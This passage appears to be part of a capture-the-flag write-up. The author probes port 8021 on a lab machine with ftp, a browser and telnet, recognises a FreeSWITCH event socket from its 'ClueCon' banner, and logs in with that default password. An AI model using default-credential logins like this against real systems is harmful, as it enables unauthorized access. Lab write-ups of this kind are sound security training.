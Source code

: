 - I tried connecting with FTP on 8021 but it wasnt successful.

  ```
  $ ftp 10.10.180.46 8021        
  Connected to 10.10.180.46.
  Content-Type: auth/request
  ftp> ls
  Not connected.
  ftp> pwd
  Not connected.
  ftp> exit
  ```
  
- When you visit that same port in the browser you'll get this:

  ```
  http://10.10.180.46:8021/ 

  Content-Type: auth/request
  
  
  Content-Type: command/reply
  Reply-Text: -ERR command not found
  ```

- Then I tried telnet.

  ```
  $ telnet 10.10.180.46 8021
  Trying 10.10.180.46...
  Connected to 10.10.180.46.
  Escape character is '^]'.
  Content-Type: auth/request
  
  Content-Type: text/disconnect-notice
  Content-Length: 67
  
  Disconnected, goodbye.
  See you at ClueCon! http://www.cluecon.com/
  Connection closed by foreign host.
  ```

- So here I googled ClueCon and fuond default credentials [here](http://lists.freeswitch.org/pipermail/freeswitch-users/2009-January/038381.html).

  ```
  $ telnet 10.10.180.46 8021
  Trying 10.10.180.46...
  Connected to 10.10.180.46.
  Escape character is '^]'.
  Content-Type: auth/request
  
  auth ClueCon
  
  Content-Type: command/reply
  Reply-Text: +OK accepted
  
  ls
  
  Content-Type: command/reply
  Reply-Text: -ERR command not found
  
  dir
  
  Content-Type: command/reply
  Reply-Text: -ERR command not found
  
  exit
  ```